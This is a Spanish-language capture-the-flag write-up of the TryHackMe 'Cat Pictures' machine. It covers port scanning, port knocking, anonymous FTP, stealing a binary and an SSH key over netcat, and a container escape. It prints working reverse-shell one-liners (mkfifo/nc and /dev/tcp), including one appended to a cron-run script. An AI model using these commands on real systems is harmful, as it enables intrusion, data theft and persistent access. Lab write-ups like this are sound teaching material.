










# Máquina Cat Pictures THM
## Ennumeración

Primero de todo vemos la conectividad haciendo un ping a la maquina victima 



Como podemos ver con el ttl nos enfrentamos a una máquina linux
Ahora vamos a hacer el escaneo de puertos y servicios con nmap.
```bash
nmap <IP> -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG allports
```

```bash
nmap <IP> -p22,4420,8080 -sCV -oN targeted
```




Vale una vez el escaneo hecho podemos ver tres puertos:
- 22 <- ssh - no tenemos credenciales a si que de momento lo descartamos
- 4420 <- nvm-express - buscando información al respecto veo que es un servicio de almacenamiento NVMe accesible por red
- 8080 <- Parece una pagina web normal la cual ahora veremos
### Escaneo nvm-express

Lo primero que voy a hacer va a ser ver si me puedo conectar sin credenciales al servicio de NVMe porque si es así podría encontrar información crítica, para eso nos conectamos con netcat pero al hacerlo nos pide password el cual no tenemos a si que vamos a descartar también este servicio de momento
### Escaneo web

Ahora vamos a entrar a la pagina web por el puerto 8080 que se vería algo así 

Navegando un poco por la web nos encontramos este post


### Explotación Port Knocking

Aqui vemos este mensaje donde knock knock hace referencia a una tecnica que se llama port knocking que si haces una secuencia de 'golpes' puedes descubrir un puerto ocultado por un firewall y invisible para escaneres como nmap. Buscando he encontrado un script en python en este [repositorio](https://github.com/eliemoutran/KnockIt) de github y lo ejecutamos de esta forma.
```bash
python3 knockit.py -b 10.66.164.145 1111 2222 3333 4444
```
Después de esto vamos ha hacer otro escaneo de nmap el cual nos ha revelado un servicio de ftp con acceso anónimo

### Escaneo de FTP

Nos metemos al ftp de forma anonima y vemos que hay un archivo: note.txt el cual me voy a descargar en mi maquina atacante
### Conectividad con NVMe
La nota contiene la credencial para conectarnos al servicio de nvme asi que vamos a conectarnos con netcat

Ya estamos dentro, viendo que la maquina tiene mkfifo y ncat me hago una reverse shell.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.145.222 1234 >/tmp/f
```
Ahora que ya estamos fuera de la shell limitada ya nos podemos mover por directorios y ejecutar el script 'runme'

El script runme pide contraseña asi que se me ha ocurrido ver los strings del archivo, para eso hay que mandarnoslo con netcat de la siguiente manera
```bash
# nuestra maquina
nc -lvnp 4444 > runme
# maquina victima
nc <IP> 4444 < /home/catlover/runme
```
Viendo los strings de el archivo vemos una palabra en texto claro lo cual parece una contraseña


Ejecutamos el script con esa contraseña y se nos transfiere un id_rsa



Nos transferimos con netcat igual que antes el id_rsa a nuestro equipo.

```bash
# nuestra maquina
nc -lvnp 4444 > id_rsa
# maquina victima
nc <IP> 4444 < /home/catlover/id_rsa
```

### SSH

Por ultimo nos conectamos a la maquina victima por ssh con esta clave privada, no sin antes darle los permisos correctos.

```bash
chmod 600 id_rsa
```
```bash
ssh -i id_rsa root@<IP>
```

Aqui podemos ver la primera flag, pero y la otra? viendo un poco la maquina me he dado cuenta de que estoy en un contenedor y tenemos que salir, para eso he revisado y hay un script llamado clean.sh situado en /opt/clean el cual parece que se ejecuta automaticamente y tengo permiso de escritura, le voy a poner una reverse shell y me voy a poner en escucha con penelope (un handler que hace la misma funcion que netcat pero te automatiza el tratamiento de la shell)
### Salida del contenedor

```bash
echo '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1' >> clean.sh
```



De esta manera ya somos root y ya podemos leer la flag.
### Aprendido

En esta máquina he aprendido conceptos nuevos como el port knocking y he repasado conceptos como reverse shell, claves, strings y contenedores.

